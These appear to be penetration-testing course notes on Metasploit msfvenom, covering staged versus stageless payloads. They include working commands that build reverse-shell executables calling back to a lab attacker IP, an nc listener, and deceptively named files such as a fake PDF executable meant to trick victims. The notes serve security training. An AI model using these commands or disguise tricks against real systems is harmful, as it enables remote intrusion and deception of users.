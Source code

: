 - We can issue the command msfvenom -l payloads to **list all the available payloads**:
	- `msfvenom -l payloads`

# Staged vs. Stageless Payloads
---
- Staged payloads create a way for us to **send over more components of our attack**. We can think of it like we are "setting the stage" for something even more useful. 
- Take for example this payload `linux/x86/shell/reverse_tcp`. 
- When run using an exploit module in Metasploit, **this payload will send a small stage that will be executed on the target and then call back to the attack box to download the remainder of the payload** over the network, then executes the shellcode to establish a reverse shell.
- So `/shell/` is a stage to send, and `/reverse_tcp` is another.


- `Stageless` payloads do not have a stage. Take for example this payload `linux/zarch/meterpreter_reverse_tcp`.
- This payload will be sent in its **entirety across a network connection without a stage.**
- This could benefit us in environments w**here we do not have access to much bandwidth and latency can interfere.**
- Stageless payloads **can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload**

# Building A Stageless Payload
---
- `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`
- We would have a listener ready to catch the connection on the attack box side upon successful execution:
	- `sudo nc -lvnp 443`
# Building a simple Stageless Payload for a Windows system
---
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`